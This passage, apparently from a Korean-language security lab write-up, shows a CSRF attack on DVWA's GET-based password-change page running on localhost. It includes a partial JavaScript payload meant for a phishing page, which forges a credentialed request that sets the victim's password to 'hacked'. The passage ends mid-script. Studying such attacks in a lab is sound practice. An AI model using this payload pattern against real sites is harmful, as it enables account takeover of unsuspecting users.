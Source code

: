![이미지](/assets/intercept.png)

사용자가 Get Method로 패스워드 변경 요청을 진행했을 때, 요청 시 사용자가 작성한 패스워드 정보가 URL에 표시되는 것을 확인할 수 있었다. 

![이미지](/assets/passwordchange_url2.png)

공격자는 URL에 표시되는 Get 요청에 포함된 패스워드 값을 변조하여 웹 서버에 전달할 경우 공격자가 의도한대로 패스워드가 변조되는 것을 확인하였다. 위 시나리오처럼 CSRF 공격을 수행하기 위해 공격자가 피싱사이트에 업로드 할 악성 스크립트를 아래와 같이 작성해보았다.

```javascript
<html>
<meta charset="UTF-8"
<head>
</head>
<script language="javascript">
	function attack(){
		var host = "localhost";
		var req="http://localhost/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change"; 
        //웹 서버에 요청을 위조하여 hacked 값으로 패스워드를 변경
		
		var xmlHttpRequest = new XMLHttpRequest();
		
		xmlHttpRequest.open("GET", req, true);
		xmlHttpRequest.withCredentials = "true";
```